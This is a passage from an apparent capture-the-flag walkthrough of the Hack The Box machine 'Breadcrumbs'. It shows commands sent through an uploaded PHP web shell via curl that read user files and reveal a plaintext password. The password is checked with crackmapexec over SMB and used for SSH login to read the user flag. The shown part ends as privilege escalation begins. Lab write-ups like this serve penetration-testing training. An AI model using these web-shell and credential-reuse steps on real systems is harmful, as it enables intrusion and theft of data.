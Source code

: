 ``` bash
11/28/2020  02:48 AM               170 sirine.disabled
11/28/2020  02:48 AM               170 william.disabled
              10 File(s)          1,722 bytes
               2 Dir(s)   6,543,896,576 bytes free
</pre>%               

❯ curl -s 'http://10.10.10.228/portal/uploads/malicious.php' --data-urlencode 'cmd=type C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData\*'
	"pizza" : "margherita",
	"size" : "large",	
	"drink" : "water",
	"card" : "VISA",
	"PIN" : "9890",
	"alternate" : {
		"username" : "juliette",
		"password" : "jUli901./())!",
	}
```

We obtain another credentials, checking with crackmapexec this user is a valid system user

``` bash
crackmapexec smb 10.10.10.228 -u 'juliette' -p 'jUli901./())!'
```

The port 22(SSH) is open, so we can connect with this credentials via SSH

``` bash
❯ ssh juliette@10.10.10.228
juliette@BREADCRUMBS C:\Users\juliette>whoami
breadcrumbs\juliette

juliette@BREADCRUMBS C:\Users\juliette\Desktop>type user.txt
19b3b761e3b7284b760c49aea9f15c75
```

We gain access as the user juliette using SSH
It's time to escalate privilage
``` bash
juliette@BREADCRUMBS C:\Users\juliette\Desktop>type todo.html
<html>
<style>
html{
background:black;
color:orange;
}
table,th,td{
border:1px solid orange;
padding:1em;
border-collapse:collapse;
}
</style>
<table>
        <tr>
            <th>Task</th>
            <th>Status</th>
            <th>Reason</th>
        </tr>
        <tr>
            <td>Configure firewall for port 22 and 445</td>
            <td>Not started</td>
            <td>Unauthorized access might be possible</td>
        </tr>
        <tr>
            <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
```